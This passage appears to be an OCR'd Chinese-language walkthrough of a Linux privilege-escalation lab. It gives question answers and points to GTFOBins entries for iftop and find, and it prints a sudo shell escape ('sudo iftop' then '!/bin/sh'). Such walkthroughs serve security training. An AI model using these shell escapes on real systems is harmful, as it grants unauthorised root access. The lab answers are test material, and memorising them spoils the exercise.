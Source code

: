 **![](img/37e1ac416c684dc5bd3fe71c0968f68b.png)**

> ****答案:11****

****问题 2:** 列表中的一个程序在 GTFOBins 上没有 shell 转义序列。到底是哪个？**

> ****答案:apache2****

****iftop**([https://gtfobins.github.io/gtfobins/iftop/](https://gtfobins.github.io/gtfobins/iftop/))**

```
sudo iftop
!/bin/sh
```

**复制整个命令并粘贴它**

**![](img/dc728b77579de2f48dc9ca2f2f8222e4.png)**

****找到**([https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/))**

**![](img/e8aa5a5617fc7370b0556a6ef5761b9d.png)**
